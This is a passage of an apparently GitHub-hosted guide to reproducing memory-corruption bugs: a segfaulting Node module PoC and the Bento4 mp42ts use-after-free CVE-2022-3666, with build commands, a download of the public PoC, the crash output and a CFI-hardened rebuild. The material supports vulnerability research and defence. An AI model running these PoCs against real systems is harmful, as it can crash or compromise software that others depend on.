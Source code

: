 `mv build/Release/obj.target/xmljs.node build/Release/`  

#### 3. Executing the PoC   
`./node/out/Release/node exploit.js`  
Expected output: `Segmentation fault (core dumped)`

----------

### Use-After-Free - CVE-2022-3666
A vulnerability, which was classified as critical, has been found in **Axiomatic Bento4**. Affected by this issue is the function `AP4_LinearReader::Advance` of the file `Ap4LinearReader.cpp` of the component `mp42ts`. The manipulation leads to **use after free**. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. VDB-212006 is the identifier assigned to this vulnerability[[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-3666)].  

#### 1. Getting the source code and building Bento4
```
git clone https://github.com/axiomatic-systems/Bento4
cd Bento4
mkdir check_build && cd check_build
cmake ../ -DCMAKE_C_COMPILER=clang DCMAKE_CXX_COMPILER=clang++ -DCMAKE_BUILD_TYPE=Release`*  
make -j
```
#### 2. Getting the PoC
`wget https://github.com/axiomatic-systems/Bento4/files/9744391/mp42ts_poc.zip`  
`unzip mp42ts_poc.zip`
##### i. Running the PoC
`/home/exploit/Bento4/check_build/mp42ts /home/exploit/mp42ts_poc /dev/null`  
Expected output:   
```
free(): double free detected in tcache 2
Aborted (core dumped)
```

###### ii. Compiling the code with CFI
`sudo apt-get install llvm-10-tools`
```
cmake ../ \
  -DCMAKE_C_COMPILER=clang \
  -DCMAKE_CXX_COMPILER=clang++ \
  -DCMAKE_C_FLAGS="-fsanitize=cfi-icall -fvisibility=hidden -flto=thin" \
  -DCMAKE_CXX_FLAGS="-fsanitize=cfi-icall -fvisibility=hidden -flto=thin" \
  -DCMAKE_EXE_LINKER_FLAGS="-flto -fvisibility=hidden -fsanitize=cfi-icall -fuse-ld=lld" \
  -DCMAKE_BUILD_TYPE=Release
```

